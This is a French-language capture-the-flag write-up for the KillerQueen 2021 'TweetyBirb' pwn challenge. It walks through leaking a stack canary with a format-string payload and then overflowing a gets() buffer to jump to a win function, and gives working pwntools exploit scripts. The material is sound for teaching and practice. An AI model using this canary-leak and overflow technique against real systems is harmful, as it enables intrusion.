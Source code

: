 ```yaml
---
title: "TweetyBirb | KillerQueen 2021 | Catégorie Pwn"
date: 2021-11-25T12:00:00Z
description: "TweetyBird | KillerQueen 2021"
categories: ["writeup"]
tags: ["pwn","tuto","writeup"]
keywords: ["tuto", "reverse","howto","ctf","KillerQueen","ctftime","I want to break free","python jail","jail","escape","bypass","pwn","canary","leak canary"]
---
```


# TweetyBirb | KillerQueen 2021

## Fichier(s)
- [Tweetybirb](./files/tweetybirb)

## Necessaires
- Netcat
- Python3 (+ pwntool)

## Flag
```
kqctf{tweet_tweet_did_you_leak_or_bruteforce_..._plz_dont_say_you_tried_bruteforce}
```
## Solution détaillée

Le but du challenge est de contourner une protection anti-smashing du binaire : ``Canary``

![Alt text](./img/checksec.png)

Nous devons d'abord voir si un BOF est possible. Ici il n'y a que 2 input donc sans grande surprise, on trouve notre point d'entré :

![Alt text](./img/smashed.png)

Le but est de faire leak la protection Canary dans le premier input pour ensuite exploiter un Buffer Over Flow dans le second.

La protection Canary fonctionne sur un principe simple.
Elle compare sa valeur après avoir reçu un buffer avec celle d’avant. Si les 2 valeurs sont différents : Le Canary comprend qu'un trop gros Buffer est entré et donc empêche la suite d'exécution du programme .


### Etape 1 : ByeBye Canary

On va utiliser des **FormatStrings** pour localiser l'emplacement du Canary et créer un Buffer à la bonne taille pour le dépasser.

Je lance Ghidra pour regarder le code du binaire et avoir la taille du Buffer de l’input.
On cherche sa taille précise pour le remplir entièrement :

Voici le code obtenu

```C

undefined8 main(void)

{
  long in_FS_OFFSET;
  char local_58 [72];
  long local_10;

  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  puts(
      "What are these errors the compiler is giving me about gets and printf? Whatever, I have this little tweety birb protectinig me so it\'s not like you hacker can do anything. Anyways, what do you think of magpies?"
      );
  gets(local_58);
  printf(local_58);
  puts("\nhmmm interesting. What about water fowl?");
  gets(local_58);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

On remarque tout de suite :
```C
char local_58 [72];
```

On a donc la taille pour remplir notre Buffer.
Maintenant grâce à python, faisons leak notre Offset du Canary .

Je choisis la [Format string](https://github.com/ir0nstone/pwn-notes/blob/master/types/stack/format-string.md) : **%08x.**

```python
from pwn import *

proc = process('./tweetybirb')

print(proc.recvline().decode("utf-8") )

payload  = b''
payload += b'A'*72
payload += b'%08x.'*100

proc.sendline(payload)
print(proc.recv(1024))
```
![Alt text](./img/leaked.png)

On peut voir qu'on a une répétition de **41414141** . Le Canary se trouve juste après , ici est donc en 15ème position .
Il leak de cette manière :

```python
proc.sendline(b'%15$p')
```

### Etape 2 : Jump to Flag
Maintenant que nous avons fait sauter la sécurité, nous pouvons chercher notre BufferOverFlow :
Après quelques secondes de recherches, on trouve 2 fonctions intéressantes :

```C
void bufinit(void)

{
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stderr,(char *)0x0,2,0);
  return;
}

void win(void)

{
  system("cat /home/user/flag.txt");
  return;
}
```

Déterminons les adresses des fonctions avec **radare2**

Executons:
```bash
r2 TweetyBirb
aaa
afl
```
et on obtient les adresses :
```
0x004010f0    1 46           entry0
0x00401130    4 33   -> 31   sym.deregister_tm_clones
0x00401160    4 49           sym.register_tm_clones
0x004011a0    3 33   -> 32   sym.__do_global_dtors_aux
0x004011d0    1 6            entry.init0
0x00401273    1 101          sym.bufinit
0x004010e0    1 11           sym.imp.setvbuf
0x00401350    1 5            sym.__libc_csu_fini
0x00401358    1 13           sym._fini
0x004012e0    4 101          sym.__libc_csu_init
0x004011d6    1 28           sym.win
0x004010b0    1 11           sym.imp.system
0x00401120    1 5            sym._dl_relocate_static_pie
0x004011f2    3 129          main
0x00401090    1 11           sym.imp.puts
0x004010d0    1 11           sym.imp.gets
0x004010c0    1 11           sym.imp.printf
0x004010a0    1 11           sym.imp.__stack_chk_fail
0x00401000    3 27           sym._init
```

On peut donc créer notre [exploit final](./file/solve_TweetyBirb.py) :

```python
from pwn import *

ip = '143.198.XXX.XXX'
port = 5002

if not args.REMOTE:
    proc = process('./tweetybirb')
else:
    proc = remote(ip, port)

proc.recv()

proc.sendline(b'%15$p')
canary = int((proc.recvline().decode('latin-1')),16)

payload = b'A'*72
payload += p64(canary)
payload += b'A'*8
payload += p64(0x401272)
payload += p64(0x4011d6)

proc.sendline(payload)
log.success(f'Flag: {proc.recvall().decode()}')
```

(J’ai modifié un peu le binaire pour qu'il pointe vers "/c/flag.txt" et "/home/user/flag.txt" car le chemin d'accès n'existe pas sur ma machine. C'était celui de la machine sur lequel était exécuté le binaire. )

Et voilà :
![Alt text](./img/solved.png)

Merci de m'avoir lu et n'hésitez pas à me donner un retour.
